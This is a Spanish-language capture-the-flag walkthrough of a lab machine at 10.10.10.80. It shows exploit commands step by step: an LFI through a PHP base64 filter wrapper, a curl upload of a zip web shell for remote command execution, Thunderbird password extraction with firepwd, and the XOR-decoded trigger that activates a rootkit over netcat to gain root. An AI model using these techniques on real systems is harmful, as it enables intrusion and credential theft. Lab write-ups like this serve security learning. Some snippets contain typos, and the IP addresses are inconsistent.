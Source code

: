 --------
- Tags: #reversing #ghidra #radare2 #lfi #lfi-zip #lfi-wrapper #lfi-to-rce #thunderbird #firefoxpwd #rootkit #python3 
----------
## Técnicas utilizadas
- Local File Inclusion (LFI)  
- LFI - Base64 Wrapper [Reading PHP files]  
- LFI to RCE - ZIP Wrapper  
- Thunderbird - Password Extraction & Reading Messages (firefoxpwd tool)  
- Rootkit - apache_modrootme [GHIDRA/Radare2 Analysis] (Privilege Escalation)
## Procedimiento

![[Pasted image 20230707202809.png]]

#### Reconocimiento
Si lanzamos un **nmap** podemos ver los siguientes puertos abiertos:
```ruby
# nmap -sCV -p80 10.10.10.80 -oN Ports
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-09 11:43 MST
Nmap scan report for 10.10.10.80
Host is up (0.13s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Ubuntu))
|_http-title: FBIs Most Wanted: FSociety
|_http-server-header: Apache/2.4.25 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.90 seconds
```

Si lanzamos un **whatweb** podemos ver las siguientes tecnologías corriendo por detrás:
```ruby
# whatweb 10.10.10.80
http://10.10.10.80 [200 OK] Apache[2.4.25], Bootstrap, Cookies[admin], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.25 (Ubuntu)], IP[10.10.10.80], JQuery, Script, Title[FBIs Most Wanted: FSociety], X-UA-Compatible[IE=edge]
```

---------
#### Local File Inclusion (LFI)  
##### LFI - Base64 Wrapper [Reading PHP files]  
En la pagina principal, vemos que se nos asignan 2 **cookies**, una de ellas lleva por nombre **admin** y tiene por valor **0** si intentamos igualarla a **1** y recargamos la pagina podemos ver una opciones nueva en el **nav**:
![[Pasted image 20230709122305.png]]

Podemos encontrar un **LFI** en cual, a través del wrapper **php://filter/convert.base64-encode/resource=$content**podemos leer contenido del servidor:
![[Pasted image 20230709122349.png]]

##### LFI to RCE - ZIP Wrapper 
Si investigamos un poco sobre más wrappers en google, encontramos uno que nos permite ejecutar comandos a traves de un **zip**. Pero primero, para que esto se pueda a contecer, debermos de poder subir algun archivo con la estructura de una **web shell.** Si listamos el codigo que logramos obtener del **LFI** vemos que cuando mandamos un mensaje en la sección de **upload**, se guarda en el directorio con el nombre de nuestra **iP**:
![[Pasted image 20230709122420.png]]

Procedemos a crear un mensaje con la estructura basica de una **web shell**:
```ruby
curl -s -X POST "http://10.10.10.80/?op=upload" -F "tip=<cmd.zip" -F "name=Name" -F "token=24f7e31e264abe61e91418654c7f952a5338278691c3fc30f9ed69186d9f4903" -F 'submit=Send Tip!' -H 'Cookie: PHPSESSID=c8sd08fuhlutako3ce2dtpgtp4; admin=1'
```
![[Pasted image 20230709123831.png]]

Y ahora si consultamos el archivo tal y como se nos dice en la pagina, podemos observar el output del comando ejecutado a nivel de sistema:
![[Pasted image 20230709123911.png]]

---------------------
#### Thunderbird - Password Extraction & Reading Messages (firefoxpwd tool)  

Vemos una carpeta algo inusual de nombre **Thunderbird**, estas suelen corresponder a sesiones de **FireFox**. Dentro de esta carpeta suelen existir ciertos archivos que nos permiten muchas veces ver credenciales en texto claro y otra veces podemos utilizar una herramienta como [FireFoxPwd tool](https://github.com/lclevy/firepwd) para desencryptar archivos y poder ver las credenciales en texto legible. Para poder lograr esto, debemos disponer de 2 archivos, por un lado la **key.db** y por otro lado un archivo json de nombre **logins.json**:
![[Pasted image 20230709124606.png]]

Podemos transferirnos a nuestro equipo estos dos archivos y hacer lo siguiente:
```
# mv {key.db,logins.json} firepwd; python3 firepwd.py
```

Y esto automaticamente nos dumpeara las contraseñas encryptadas que existan en estos archivos. Podemos observar que ahora pertenecemos al groupo **ADM** que nos permite leer **logs del sistema**.

-----------
#### Rootkit - apache_modrootme [GHIDRA/Radare2 Analysis] (Privilege Escalation)
Una vez como el nuevo usuario, podemos intentar ahora listar correos existentes en la carpeta **ThunderBird**, ya que estos se suelen almacenar en *./ImapMail/-Domain-/mails* y podemos ver que existen algunos, hay uno que llama la atencion y dice lo siguiente:
```
Image Mail Elliot
```

Basicamente el correo nos habla de que en el sistema existe un **RootKit**, y nos brindan el nombre del posible binario, si aplicamos algunos filtros para encontrar el binario podemos encontrar el siguiente resultado:
```
# locate rootme
```

Una vez encontramos el posible **RootKit**, podemos proceder a mandarlo a nuestro equipo para posteriormente hacerle **Reversing** con **Ghidra**

--------
#### Rootkit - apache_modrootme [GHIDRA/Radare2 Analysis] (Privilege Escalation)
Buscando por funciones llamativas, encontramos una de nombre:
![[Pasted image 20230709130953.png]]

Esta su vez hace una llamada a una funcion con nombre **DarkArmy**:
![[Pasted image 20230709131018.png]]

En la funcion **DarkArmy** podemos ver el valor de la cadena, el valor final, es el equivalente de una cadena que tira de XOR contra la palabra **HackTheBox**, podemos usar **Radare2** para ver mas claro a lo que se refieren los numeros hexadecimales, tendriamos que aplicar el siguiente comando:
```
radare2 > px @0x0000101bf2
```

y podemos ver  de mejor manera contra que se esta aplicando el **XOR**:.
![[Pasted image 20230709131405.png]]

Ahoora con esta cadena, podemos aplicarle un tratamiento con **Python** interactivo:
```
>> cadena1 = bytearray(b"\x0e\x14\0xd\x38\x3b\x0b\x27\x1b\x01")
>> cadena2 = bytearrary(b"HackTheBox")
>> cadena_final = ""
>> for i in range(0,10):
>> 	cadena_final += chr(cadena1[i] ^ cadena2[i])
>> 	
>> print(cadena_final)
FunSociety
```

Ahora podemos conectarnos con **Netcat** y proporcionar la palabra para activar el **RootKit**:
```netcat
nc 10.10.10.10 80
GET FunSociety
rootme-0.5 DarkArmy Edition Ready
Whoami
root
```



